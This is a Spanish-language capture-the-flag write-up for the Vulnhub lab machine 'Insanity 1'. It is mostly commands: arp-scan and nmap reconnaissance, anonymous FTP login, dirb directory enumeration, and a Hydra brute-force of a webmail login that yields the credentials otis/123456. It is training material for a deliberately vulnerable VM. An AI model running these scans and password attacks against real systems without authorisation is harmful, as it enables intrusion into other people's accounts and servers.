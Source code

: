 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=530&height=80&lines=INSANITY_HOSTING"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/insanity-1,536/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177059310-4e781fd1-10e5-4204-a0e4-1cb0101ea678.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/177059371-cdbe2b44-c0bb-47bc-843e-443e7f8e38a6.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/177059471-f34e40d9-8d65-4731-9ea1-15efd130ca17.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio de sesión anónimo.

O.S: Linux (**CentOS**)

URL: `http://192.168.1.10`

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.10
```
Usuario: `anonymous`

Contraseña: `anonymous`

![4](https://user-images.githubusercontent.com/75953873/177059681-c67a449f-966c-4557-857a-fb6b689ee742.png)

- *Paso 5:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10/monitoring -X .php -w /usr/share/wordlists/dirb/common.txt 
```
![5](https://user-images.githubusercontent.com/75953873/177060618-20a3b175-70f1-4446-9a98-06fd3472b895.png)

URL completa: `http://192.168.1.10/monitoring/login.php`

![6](https://user-images.githubusercontent.com/75953873/177060649-2c0299a6-1293-4ff3-bd57-3d7f2c377c33.png)

```
dirb http://192.168.1.10 -N .php,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![7](https://user-images.githubusercontent.com/75953873/177060767-64de6138-1ce3-4e06-a2fe-6d73901a3d29.png)

URL completa: `http://192.168.1.10/news`

![8](https://user-images.githubusercontent.com/75953873/177060834-7c34ccb2-29a1-49ff-bf16-b4bee6137d79.png)

```
dirb http://192.168.1.10/news -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![9](https://user-images.githubusercontent.com/75953873/177060944-32c81f13-e6db-4029-ac2c-f9e2d654ebf1.png)

URL completa: `http://192.168.1.10/news/admin/`

![10](https://user-images.githubusercontent.com/75953873/177060975-9ea24383-8fb2-4b1d-a3d2-b33eef1c75a0.png)

- *Paso 6:* Aplicar fuerza bruta a inicio de sesión con Hydra.

```
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://192.168.1.10/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```
![11](https://user-images.githubusercontent.com/75953873/177061160-81bd988d-c16b-4df4-a628-b2fdd41a1775.png)

Usuario: `otis`

Contraseña: `123456`
